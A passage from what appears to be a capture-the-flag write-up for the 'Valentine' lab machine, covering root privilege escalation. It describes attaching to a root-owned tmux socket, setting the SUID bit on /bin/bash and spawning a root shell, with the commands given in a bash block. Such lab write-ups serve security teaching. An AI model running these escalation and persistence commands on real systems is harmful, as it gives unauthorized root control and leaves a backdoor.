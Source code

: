 <br />
<img src="{{ site.img_path }}/valentine_writeup/Valentine_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/valentine_writeup/Valentine_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/valentine_writeup/Valentine_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/valentine_writeup/Valentine_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After the first few **Enumeration** commands, I find the unintended path to **Escalate privileges** through **Polkit's** `pkexec` tool which may be vulnerable to **[PwnKit](https://github.com/ly4k/PwnKit){:target="_blank"}**, but I'm going to look for the real attack vector. After exploring the file system a bit I find a hidden folder and even more interestingly, a file that turns out to be a socket from a **Tmux** session. I succeed in connecting to the session with `tmux`, and since it belonged to the **root** user I can **[make changes to the system](https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0){:target="_blank"}** that allow me to establish persistence as the user with maximum privileges (set the **SUID** bit of the **Bash** shell). I exit the session and I can execute the command to obtain a shell, and that this one attends to the user owner of the binary (**root**), this way I succeed to **Escalate privileges** and to create **Persistence**. I access the last flag and finish engaging the box.

> **Tmux** is a terminal multiplexer for Unix-like operating systems. It allows multiple terminal sessions to be accessed simultaneously in a single window. It is useful for running more than one command-line program at the same time.

> **Tmux** can be prone to a **local privilege-escalation vulnerability** because it fails to properly drop group permissions obtained through setGID.

```bash
find \-perm -4000 2>/dev/null
# ./usr/bin/pkexec

getcap / -r 2>/dev/null
crontab -l
sudo -l
ls -la
# .devs
cd .devs
ls
# dev_sess
file dev_sess
# dev_sess: socket

tmux -S dev_sess
whoami
chmod u+s /bin/bash
exit
bash -p
```

